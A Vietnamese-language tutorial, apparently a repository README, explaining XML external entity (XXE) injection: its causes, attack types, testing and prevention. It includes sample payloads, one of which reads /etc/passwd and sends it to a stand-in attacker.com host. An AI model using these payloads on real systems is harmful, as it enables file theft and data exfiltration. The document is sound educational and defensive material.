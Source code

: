 # XML-external-entity-XXE-injection

## Overview:

### XML là gì:

`XML (Extensible Markup Language)` là một ngôn ngữ đánh dấu dựa trên văn bản được sử dụng để lưu trữ và truyền dữ liệu có cấu trúc. Nó là một công nghệ chung cho việc trao đổi dữ liệu giữa các hệ thống khác nhau và được sử dụng rộng rãi trong ứng dụng web.

XML sử dụng các thẻ đánh dấu để xác định cấu trúc và nội dung của dữ liệu. Mỗi thẻ bắt đầu bằng một ký tự `"<"` và kết thúc bằng ký tự `">"`. Thẻ có thể chứa văn bản hoặc các thẻ con bên trong nó. Dữ liệu trong XML được tổ chức thành cây phân cấp, trong đó các thẻ cha chứa các thẻ con và các thẻ con có thể chứa các thẻ khác.

```
<person>
  <name>John Doe</name>
  <age>30</age>
  <email>john@example.com</email>
</person>
```

Trong ví dụ trên, chúng ta có một phần tử `<person>` chứa ba phần tử con là `<name>`, `<age>`, và `<email>`. Mỗi phần tử con chứa dữ liệu tương ứng, chẳng hạn `<name>` chứa `John Doe`, `<age>` chứa `30`, và `<email>` chứa `john@example.com`.

XML cho phép người dùng tự định nghĩa các thẻ và cấu trúc dữ liệu phù hợp với nhu cầu của họ. Điều này giúp việc truyền và lưu trữ dữ liệu linh hoạt hơn và dễ dàng cho việc tương tác giữa các hệ thống khác nhau.

### External Entity (thực thể ngoại vi) là gì:

Trong ngữ cảnh của XML là một cơ chế cho phép tham chiếu và sử dụng dữ liệu từ các nguồn bên ngoài tài liệu XML hiện tại. Thực thể ngoại vi cho phép chèn dữ liệu từ các tệp tin, URL hoặc tài nguyên mạng vào trong tài liệu XML.

Trong XML, một thực thể ngoại vi được khai báo trong phần DTD (Document Type Definition) hoặc trong khai báo ENTITY. Nó có thể được định nghĩa bằng cách sử dụng một SYSTEM identifier (định danh hệ thống) để tham chiếu đến một nguồn bên ngoài.

Ví dụ về khai báo một thực thể ngoại vi trong DTD:
  
```
  <!DOCTYPE data [
  <!ENTITY externalEntity SYSTEM "http://example.com/data.xml">
]>
```
Trong ví dụ trên, externalEntity là tên của thực thể ngoại vi và `http://example.com/data.xml` là định danh hệ thống. Thực thể ngoại vi này tham chiếu đến tài liệu XML tại URL `http://example.com/data.xml`.

Thực thể ngoại vi trong XML có thể được sử dụng để chèn dữ liệu từ các nguồn bên ngoài vào tài liệu XML, nhưng cũng có thể gây ra các rủi ro bảo mật nếu không được xử lý đúng cách, như trong trường hợp của lỗ hổng XML External Entity (XXE) Injection.

### XXE là gì:
 
XXE là viết tắt của External Entity Expansion (mở rộng thực thể ngoại vi). Nó là một lỗ hổng bảo mật phổ biến trong các ứng dụng web, đặc biệt là trong các ứng dụng sử dụng XML để truyền và lưu trữ dữ liệu.

Khi một ứng dụng web không xử lý đầu vào XML đúng cách, tấn công XXE có thể cho phép kẻ tấn công chèn các thực thể ngoại vi (external entities) độc hại vào các tệp XML được sử dụng trong ứng dụng. Nhờ đó, kẻ tấn công có thể đọc các tệp hệ thống từ xa, thực hiện các cuộc tấn công phối hợp (coordinated attacks), và thậm chí thực hiện tấn công từ chối dịch vụ (DoS) bằng cách tăng cường đáng kể khối lượng công việc.

Các ứng dụng web cần kiểm tra và xử lý đầu vào XML một cách an toàn để ngăn chặn tấn công XXE. Cách phổ biến để ngăn chặn XXE là tắt tính năng mở rộng thực thể ngoại vi trong xử lý XML hoặc sử dụng bộ phân tích XML an toàn để đảm bảo chỉ các thực thể hợp lệ được xử lý.

## Nguyên do:
  
Lỗ hổng XXE (XML External Entity) phát sinh khi ứng dụng không xử lý đầu vào XML một cách an toàn. Dưới đây là một số nguyên nhân phổ biến dẫn đến sự tồn tại của lỗ hổng XXE:

- Không kiểm tra và xác thực đầu vào: Khi ứng dụng không thực hiện việc kiểm tra và xác thực đầu vào XML, các thực thể ngoại vi độc hại có thể được chèn vào tài liệu XML và được xử lý một cách không an toàn.

- Cho phép khai thác tính năng thực thể ngoại vi: Các ứng dụng một số ngôn ngữ hoặc thư viện XML cho phép mở rộng thực thể ngoại vi mặc định. Nếu tính năng này không được tắt hoặc kiểm soát cẩn thận, nó có thể tạo điều kiện cho việc khai thác lỗ hổng XXE.

- Tin cậy đối với dữ liệu không đáng tin cậy: Khi ứng dụng tin tưởng và xử lý dữ liệu XML từ nguồn không đáng tin cậy như người dùng hoặc bên thứ ba mà không kiểm tra tính toàn vẹn và đáng tin cậy của dữ liệu, lỗ hổng XXE có thể được khai thác.

- Sự phụ thuộc vào hàm xử lý XML không an toàn: Sử dụng các hàm xử lý XML không an toàn hoặc không được cập nhật có thể tạo điều kiện cho khai thác lỗ hổng XXE.

Để ngăn chặn lỗ hổng XXE, ứng dụng cần thực hiện các biện pháp bảo mật như kiểm tra và xác thực đầu vào, tắt tính năng mở rộng thực thể ngoại vi, sử dụng các bộ phân tích XML an toàn và giới hạn quyền truy cập đến các tài nguyên ngoại vi.
  
## Các loại tấn công XXE:
  
  Có 2 loại tấn công phổ biến:
  
  - Exploiting External Entity Declaration (In-band XXE)

Đây là loại tấn công XXE phổ biến nhất. Trong tấn công này, kẻ tấn công chèn một thực thể ngoại vi độc hại trực tiếp vào tài liệu XML. Thực thể ngoại vi này sẽ truy cập và đọc các tệp tin hoặc tài nguyên từ xa. Kết quả của việc đọc này sau đó có thể được trả về trong phản hồi từ máy chủ.

```
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "http://attacker.com/malicious-file">
]>
<data>&xxe;</data>
```

Trong ví dụ trên, kẻ tấn công chèn một thực thể ngoại vi xxe và truy cập tệp tin `malicious-file` từ xa thông qua URL `http://attacker.com/malicious-file`. Dữ liệu từ tệp tin này sẽ được đưa vào tài liệu XML và trả về trong phản hồi.
  
  - Exploiting Parameter Entities (Out-of-band XXE)
  
Loại tấn công này sử dụng các thực thể tham số (parameter entities) để khai thác XXE. Kẻ tấn công chèn một thực thể ngoại vi độc hại vào tài liệu XML, nhưng việc truy cập đến tệp tin hoặc tài nguyên từ xa không xảy ra trong quá trình phân tích cú pháp. Thay vào đó, dữ liệu được truyền qua kênh phụ, như gửi thông qua giao thức HTTP hoặc DNS.
 
```
  <!DOCTYPE data [
  <!ENTITY % xxe SYSTEM "file:///etc/passwd">
  <!ENTITY callhome SYSTEM "http://attacker.com/?data=%xxe;">
]>
<data>&callhome;</data>
```

Trong ví dụ trên, kẻ tấn công chèn một thực thể tham số `%xxe` để tham chiếu đến tệp tin `/etc/passwd`. Sau đó, dữ liệu từ tệp tin này được gửi đến máy chủ của kẻ tấn công thông qua URL `http://attacker.com/?data=%xxe;`.
  
Ngoài ra còn có:
  
  - Exploiting XXE to retrieve files, trong đó một thực thể ngoại vi được định nghĩa chứa nội dung của một tệp tin, và được trả về trong phản hồi của ứng dụng.
  
  - Exploiting blind XXE to retrieve data via error messages, trong đó kẻ tấn công có thể kích hoạt một thông báo lỗi phân tích chứa dữ liệu nhạy cảm.
  
## Làm thế nào để tìm và kiểm tra các lỗ hổng XXE (XML External Entity) vulnerabilities?

Để tìm và kiểm tra các lỗ hổng XXE, bạn có thể tuân theo các bước sau:

- Xem xét các điểm tiếp xúc với dữ liệu XML: Tìm hiểu các thành phần trong ứng dụng của bạn mà có thể tiếp nhận hoặc xử lý dữ liệu XML, chẳng hạn như các giao diện API, form đăng ký, tải lên tệp tin XML, hoặc cơ sở dữ liệu lưu trữ XML.

- Kiểm tra DTD (Document Type Definition): DTD được sử dụng để định nghĩa cấu trúc của tài liệu XML. Tìm hiểu xem ứng dụng của bạn có chấp nhận hoặc xử lý DTD từ nguồn không đáng tin cậy không. Nếu ứng dụng cho phép khai báo ENTITY trong DTD, điều này có thể dẫn đến lỗ hổng XXE.

 - Kiểm tra xem liệu ứng dụng có chấp nhận dữ liệu XML từ nguồn bên ngoài: Xác định liệu ứng dụng có chấp nhận hoặc xử lý XML từ nguồn không đáng tin cậy không. Nếu ứng dụng đọc và xử lý XML từ nguồn bên ngoài, điều này có thể tạo ra lỗ hổng XXE.

- Kiểm tra xem liệu ứng dụng có phản hồi với thông báo lỗi XML: Gửi các dữ liệu XML độc hại hoặc chứa thực thể ngoại vi đến ứng dụng và quan sát phản hồi của nó. Nếu ứng dụng trả về thông báo lỗi XML chứa thông tin nhạy cảm, điều này có thể chỉ ra sự tồn tại của lỗ hổng XXE.

- Kiểm tra các kịch bản khai thác XXE: Thử áp dụng các kịch bản khai thác XXE vào ứng dụng để xem liệu chúng có thành công hay không. Điều này bao gồm chèn thực thể ngoại vi, đọc các tệp tin từ xa, thực hiện các yêu cầu mạng, hoặc tấn công SSRF.

- Sử dụng công cụ kiểm tra tự động: Có nhiều công cụ kiểm tra tự động có sẵn để tìm và kiểm tra các lỗ hổng XXE. Các công cụ này có thể giúp tự động tìm kiếm, phân tích và kiểm tra các lỗ hổng XX

## Cách phòng ngừa các lỗ hổng XXE (XML External Entity) vulnerabilities:

Để phòng ngừa các lỗ hổng XXE, bạn có thể thực hiện các biện pháp bảo mật sau đây:

1. Sử dụng cơ chế xử lý XML an toàn: Sử dụng các thư viện và công cụ xử lý XML an toàn và tuân thủ các hướng dẫn và tiêu chuẩn bảo mật khi xử lý dữ liệu XML trong ứng dụng của bạn. Đảm bảo rằng các cơ chế này loại bỏ hoặc vô hiệu hóa khả năng đọc và xử lý DTD (Document Type Definition) hoặc thực thể ngoại vi.

2. Tắt tính năng DTD và thực thể ngoại vi: Trong quá trình xử lý XML, hãy đảm bảo rằng các tính năng DTD và thực thể ngoại vi đã được tắt hoặc vô hiệu hóa. Điều này có thể được thực hiện bằng cách cấu hình thư viện XML hoặc công cụ xử lý XML của bạn để không chấp nhận hoặc xử lý DTD hoặc thực thể ngoại vi.

3. Đầu vào và kiểm tra dữ liệu đầu vào: Luôn luôn kiểm tra và xác thực dữ liệu đầu vào từ người dùng hoặc nguồn bên ngoài trước khi chấp nhận và xử lý nó. Đảm bảo rằng dữ liệu đầu vào không chứa các thực thể ngoại vi hoặc các cấu trúc XML độc hại có thể khai thác lỗ hổng XXE.

4. Giới hạn quyền truy cập và quyền hạn: Thiết lập các quyền truy cập và quyền hạn phù hợp cho ứng dụng và các thành phần xử lý XML. Điều này đảm bảo rằng chỉ có quyền truy cập cần thiết vào các tệp tin, tài nguyên mạng và hệ thống ngoại vi mà ứng dụng cần để hoạt động.








  
  
